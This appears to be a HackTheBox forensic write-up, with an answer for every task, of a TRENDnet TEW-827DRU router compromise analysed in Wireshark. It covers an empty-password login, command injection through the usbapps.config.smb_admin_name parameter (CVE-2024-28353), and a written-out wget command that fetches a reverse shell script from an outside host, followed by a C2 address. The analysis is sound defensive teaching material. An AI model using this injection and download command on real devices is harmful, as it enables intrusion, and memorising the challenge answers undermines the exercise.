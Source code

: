 # 🕵️ Trent - DFIR Analysis (HackTheBox)

###   Scenario Overview

The SOC team has identified **suspicious lateral movement** targeting **router firmware** within the network. Network traffic logs reveal **anomalous traffic** and **unauthorized command execution**, indicating that an attacker already present inside the network has compromised a router and is attempting further exploitation.
You are provided with **network traffic logs** from one of the impacted machines. Your objective is to conduct a thorough forensic investigation to uncover the attacker’s **Tactics, Techniques, and Procedures (TTPs)**.

---

###  Investigation Tasks


####  Task 1  
**Question:** From what IP address did the attacker initially launch their activity?  
**Answer:** `192.168.10.2`

---
- Since we are monitoring the infected router logs look for the incoming traffic IP address.
- Filter for HTTP traffic in Wireshark  and review all Post requests as there are multiple interesting URL traffic.
- Upon review you will find post requests where the attacker is trying to login to the router. If you follow TCP stream of those requests. You will find the router Model Name.
  ![task_2](https://github.com/user-attachments/assets/00236fe7-bac1-4807-9047-f831b6dfe048)
---

####  Task 2  
**Question:** What is the model name of the compromised router?  
**Answer:** `TEW-827DRU`

---

- If you review all post requests for login with URI  /apply_sec.cgi?csrf_token=
- You will find two failed requests (11:52:53 and 11:52:40) and a successful  login at 2024-05-01 11:53:27 (remember this is EST and UTC is : 2024-05-01 15:53:27)
  ![task_6](https://github.com/user-attachments/assets/c11ddf5a-d2de-4c47-a601-e2225d2e1208)
---

####  Task 3  
**Question:** How many failed login attempts did the attacker try before successfully logging into the router?  
**Answer:** `2`

---

####  Task 4  
**Question:** At what UTC time did the attacker successfully log into the router’s web admin interface?  
**Answer:** `2024-05-01 15:53:27 UTC`

---

- Now lets review the Successful Post request. Right click on the packet → Follow → TCP Stream
![task_5](https://github.com/user-attachments/assets/082551a3-4b93-4c4e-a0ee-0d6b8eec0f96)
- You can see no password was entered for successful login
---

####  Task 5  
**Question:** How many characters long was the password used to log in successfully?  
**Answer:** `0`

---

- Now lets review POST requests after 2024-05-01 11:53:27 and you can find multiple POST requests
- Review each one of them by following TCP stream to understand what is happening.
- As you review you will find every Post request trying to inject values to parameter : **“ usbapps.config.smb_admin_name”**
- Like these requests tries to inject **“Whoami”** and some URL with Wget indicating attacker was successful at **command injection**
![task_b](https://github.com/user-attachments/assets/45110500-d631-4be1-b602-7b8659de1dad)
![task_a](https://github.com/user-attachments/assets/6be7e9f7-eb74-4992-acc3-63ae1faa23bf)
- As we can point out that the attacker is using command injection to connect the router to its C2 server.
---

####  Task 6  
**Question:** What is the current firmware version installed on the compromised router?  
**Answer:** `2.10`

---

####  Task 7  
**Question:** Which HTTP parameter was manipulated by the attacker to get remote code execution (RCE) on the system?  
**Answer:** `usbapps.config.smb_admin_name`

---

- Since we Know its a TEW-827DRU router and a remote code execution is performed lets perform some threat intelligence action look for The router with command injection vulnerabilites.
- You will find this https://nvd.nist.gov/vuln/detail/CVE-2024-28353#match-16536444with CVE and router version number.
---

####  Task 8  
**Question:** What is the CVE number associated with the vulnerability exploited in this attack?  
**Answer:** `CVE-2024-28353`

---

####  Task 9  
**Question:** What was the first command the attacker executed by exploiting the vulnerability?  
**Answer:** `whoami`

- Command observed in the earlier post request.
---

####  Task 10  
**Question:** What command did the actor use to initiate the download of a reverse shell to the router from a host outside the network?  
**Answer:** `wget http://35.159.25.253:8000/a1l4m.sh`

---

- When you reviewed post requests earlier you can find POST requests where the reverse shell failed
![task_7-11](https://github.com/user-attachments/assets/76adbb33-3c37-4d4d-84ec-9d6c81cefa2f)
- Error message observed in the POST response following typo injection.

---

####  Task 11  
**Question:** When the actor made a typo during injection, what response message did the server return?  
**Answer:** `Access to this resource is forbidden`

---

#### Task 12  
**Question:** What was the IP address and port of the C2 server when the reverse shell successfully connected?  
**Answer:** `35.159.25.253:41143`

---

###  Summary

The attacker leveraged a **remote code execution vulnerability** (CVE-2024-28353) in the **TEW-827DRU router**, exploiting an HTTP parameter via POST requests. Through command injection (`usbapps.config.smb_admin_name`), they executed commands such as `whoami` and used `wget` to pull a reverse shell script, which ultimately connected to a **C2 server** at `35.159.25.253:41143`.

---


